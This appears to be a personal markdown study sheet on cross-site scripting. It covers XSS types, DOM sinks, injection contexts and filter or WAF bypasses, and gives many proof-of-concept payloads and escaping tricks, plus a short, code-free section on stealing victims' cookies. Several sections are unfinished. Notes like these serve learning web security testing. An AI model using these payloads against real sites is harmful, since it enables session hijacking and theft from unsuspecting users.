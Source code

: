 # Cross-site scripting (XSS)

## General info
Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users

## Alert() limitation
TO DO

## Do not use alert(1)
```
<textarea id="script" onchange=("unsafe(this.value)"></textarea><br>
<iframe id="result" sandbox="allow-scripts allow-modals"></iframe>
```
```
document.session = "secret"
function unsafe(t) {
  var i = document.getElementById('result'); // get the <iframe>
  i.srcdoc = "<body><script>document.write("+t+");<"+"/script><body>";
}
```
- Try `alert(1)` and you see it works... but
- `alert(document.session)` won't work... why?
- `alert(window.origin)` or `alert(document.domain)` and you'll see it's empty
  - this is because the sandboxed iframe also has a different origin. It's isolated from the website it is embedded into and you cannot steal the secret session.
- Use `alert(document.domain)` or `alert(window.origin)` instead 

## Types of XSS
- Reflected XSS, where the malicious script comes from the current HTTP request.
  - `https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`
- Stored XSS, where the malicious script comes from the website's database.
  - POST example: `comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E`
- DOM-based XSS, where the vulnerability exists in client-side code rather than server-side code.
  - ```
    <script>
    function trackSearch(query) {
      document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
      trackSearch(query);
    }
    </script>
    ```
  - Get request `https://insecure-website.com/index?search="><script>alert(document.domain)<%2Fscript>`
  - Methodology
      1. Look for any script that has a sinks
      2. See if you can control the sink
      3. Exploit it 
  - Note: here there are some sources and sinks
    - https://github.com/wisec/domxsswiki/wiki
    - https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities
  - Note 2: DOM Invader (Burp Suite tool) is a browser-based tool that helps you test for DOM XSS vulnerabilities using a variety of sources and sinks. 

### DOM XSS - Sources and sinks in third-party dependencies
To do...

### DOM XSS combined with reflected and stored data
- If a script reads some data from the URL and writes it to a dangerous sink, then the vulnerability is entirely client-side. (there is no processing from the server) 
- Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.
  - `eval('var data = "reflected string"');`
- In a stored DOM XSS vulnerability, the server receives data from one request, stores it, and then includes the data in a later response. A script within the later response contains a sink which then processes the data in an unsafe way.
  - `element.innerHTML = comment.author`

## Cross-site scripting contexts
### XSS between HTML tags
```
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```
- Bypass WAF
  - If you receive an error like "tag <img> is not allowed" or "event is not allowed", use XSS cheat sheet to discover a tag and event that work.
  - Note: understand how a payload works
    - `<body onresize="print()">` with this payload (for reflected XSS) you need an exploit server and iframe tag
### XSS in HTML tag attributes
- When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one.
  - `"><script>alert(document.domain)</script>`
- More commonly in this situation, angle brackets are blocked or encoded. In this case you can introduce a new attribute that creates a scriptable context.
  - `" autofocus onfocus=alert(document.domain) x="`
- Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context.
  - If the XSS context is into the href attribute of an anchor tag, you can use the javascript pseudo-protocol to execute script
    - `<a href="javascript:alert(document.domain)">`
- Access keys allow you to provide keyboard shortcuts that reference a specific element. This is useful in:
  - Hidden inputs because events like onmouseover and onfocus can't be triggered due to the element being invisible
    - `<input type="hidden" accesskey="X" onclick="alert(1)">`
  - `<link rel="canonical" accesskey="X" onclick="alert(1)" />`
- Suggestions:
  - Substitute `'` `"` and viceversa
  - Space is not needed
    - `<link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>`

### XSS into JavaScript
- Terminating the existing script (I don't really know why this works but it works)
  - The browser incorrectly interprets the `</script>` sequence within the string as the end of the script block, prematurely stopping the execution of your JavaScript script and generating an error.
      - ```
        <script>
        ...
        var input = 'controllable data here';
        ...
        </script>
        ```
        ```
        </script><img src=1 onerror=alert(document.domain)>
        ```
- Breaking out of a JavaScript string
  - It's essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing
    - ```
      '-alert(document.domain)-'
      ';alert(document.domain)//
      ```
  - Some applications try to escape single quote characters with a backslash but often forget to escape the backslash itself.
    - ` ';alert(document.domain)// ` is converted to `\';alert(document.domain)//` so your input could be `\';alert(document.domain)//` which gets converted to `\\';alert(document.domain)//`
  - Making use of HTML-encoding
    - When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around input filters.
      - `<a href="#" onclick="... var input='controllable data here'; ...">`
      - `&apos;-alert(document.domain)-&apos;`
      - The browser HTML-decodes the value of the onclick attribute before the JavaScript is interpreted
      - HTML encode: https://html.spec.whatwg.org/multipage/named-characters.html
      - Note: you cannot use `&quot;` -> `"` to close onclick attribute. Remember: The browser HTML-decode the value of the onlick attribute but not the entire structure
  - XSS in JavaScript template literals
    - JavaScript template literals are string literals that allow embedded JavaScript expressions (Template literals are encapsulated in backticks)
      - ```
        <script>
        ...
        var input = `controllable data here`;
        ...
        </script>
        ```
        ```
        ${alert(document.domain)}
        ```
### XSS via client-side template injection
To do
        
## Exploiting cross-site scripting vulnerabilities
### Exploiting cross-site scripting to steal cookies
- Send the victim's cookies to your own domain
- Limitation:
  - The victim might not be logged in.
  - Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
  - Sessions might be locked to additional factors like the user's IP address.
  - The session might time out before you're able to hijack it.
### Exploiting cross-site scripting to capture passwords
To do
### Exploiting cross-site scripting to perform CSRF
To do
